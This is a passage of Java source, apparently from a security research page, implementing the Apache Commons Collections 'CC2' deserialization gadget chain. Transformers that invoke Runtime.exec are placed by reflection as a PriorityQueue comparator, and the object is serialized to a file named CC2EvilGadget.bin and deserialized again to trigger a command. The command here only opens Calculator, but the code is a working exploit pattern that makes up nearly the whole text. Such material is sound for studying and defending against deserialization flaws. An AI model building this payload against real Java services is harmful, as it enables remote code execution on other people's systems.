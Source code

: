 ```java
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/26 9:42 pm
 */
public class CommonsCollectionsGadget1 {
    // public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
    public static void CC2() throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);
        try {
            // Serialization operation
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CC2EvilGadget.bin"));
            outputStream.writeObject(priorityQueue);
            outputStream.close();
            // Deserialization operation
            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CC2EvilGadget.bin"));
            inputStream.readObject();
            inputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC2();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
